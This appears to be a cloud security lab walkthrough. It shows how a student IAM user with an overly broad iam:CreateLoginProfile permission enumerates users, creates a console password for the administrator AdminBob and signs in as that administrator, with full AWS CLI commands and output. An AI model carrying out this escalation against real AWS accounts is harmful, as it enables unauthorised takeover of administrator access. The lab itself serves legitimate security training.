

# Overly permissive permission II

Overly Permissive Permission can be abused by a user to perform privileged operations.

Objective: Leverage the policy attached to the student user and attain administrative privileges on the AWS account.

----

1. Get access to AWS lab credentials.
2. Configure AWS CLI.
3. Get details of the current user:

```text
┌──(kali㉿kali)-[~]
└─$ aws iam get-user
```

4. Get information about the policies attached to the user:

```text
┌──(kali㉿kali)-[~]
└─$ aws iam list-user-policies --user-name student
{
    "PolicyNames": [
        "terraform-20230512111246646900000001"
    ]
}

┌──(kali㉿kali)-[~]
└─$ aws iam get-user-policy --user-name student --policy-name terraform-20230512111246646900000001
{
    "UserName": "student",
    "PolicyName": "terraform-20230512111246646900000001",
    "PolicyDocument": {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Action": [
                    "iam:CreateLoginProfile",
                    "iam:ChangePassword"
                ],
                "Effect": "Allow",
                "Resource": "*"
            }
        ]
    }
}
```

The user has permission to create a login profile for any user.

5. Check for users with `AdministratorAccess` policy attached to them:

```text
┌──(kali㉿kali)-[~]
└─$ aws iam list-users
{
    "Users": [
        {
            "Path": "/",
            "UserName": "AdminBob",
            "UserId": "AIDAWEU26T2LEI4WDLHIO",
            "Arn": "arn:aws:iam::422305504918:user/AdminBob",
            "CreateDate": "2023-05-12T11:12:46+00:00"
        },
        {
            "Path": "/",
            "UserName": "AdminJane",
            "UserId": "AIDAWEU26T2LFVJVEDGQI",
            "Arn": "arn:aws:iam::422305504918:user/AdminJane",
            "CreateDate": "2023-05-12T11:12:46+00:00"
        },
        {
            "Path": "/",
            "UserName": "identity",
            "UserId": "AIDAWEU26T2LPLATV2YRP",
            "Arn": "arn:aws:iam::422305504918:user/identity",
            "CreateDate": "2023-05-12T11:12:55+00:00"
        },
        {
            "Path": "/",
            "UserName": "student",
            "UserId": "AIDAWEU26T2LHYPC2TGST",
            "Arn": "arn:aws:iam::422305504918:user/student",
            "CreateDate": "2023-05-12T11:12:46+00:00"
        }
    ]
}

┌──(kali㉿kali)-[~]
└─$ aws iam list-attached-user-policies --user-name AdminBob
{
    "AttachedPolicies": [
        {
            "PolicyName": "AdministratorAccess",
            "PolicyArn": "arn:aws:iam::aws:policy/AdministratorAccess"
        }
    ]
}
                                                                                                         
┌──(kali㉿kali)-[~]
└─$ aws iam list-attached-user-policies --user-name AdminJane
{
    "AttachedPolicies": [
        {
            "PolicyName": "AdministratorAccess",
            "PolicyArn": "arn:aws:iam::aws:policy/AdministratorAccess"
        }
    ]
}
                                                                                                         
┌──(kali㉿kali)-[~]
└─$ aws iam list-attached-user-policies --user-name identity 
{
    "AttachedPolicies": []
}
                                                                                                         
┌──(kali㉿kali)-[~]
└─$ aws iam list-attached-user-policies --user-name student 
{
    "AttachedPolicies": [
        {
            "PolicyName": "IAMReadOnlyAccess",
            "PolicyArn": "arn:aws:iam::aws:policy/IAMReadOnlyAccess"
        }
    ]
}
```

6. Create a login profile for user AdminBob:

```text
┌──(kali㉿kali)-[~]
└─$ aws iam create-login-profile --user-name AdminBob --password abcd@12345 --no-password-reset-required
{
    "LoginProfile": {
        "UserName": "AdminBob",
        "CreateDate": "2023-05-12T11:18:50+00:00",
        "PasswordResetRequired": false
    }
}
```

7. Sign in with the IAM user AdminBob and password "abcd@12345" in the AWS console.



Successfully gained access to AdminBob user.
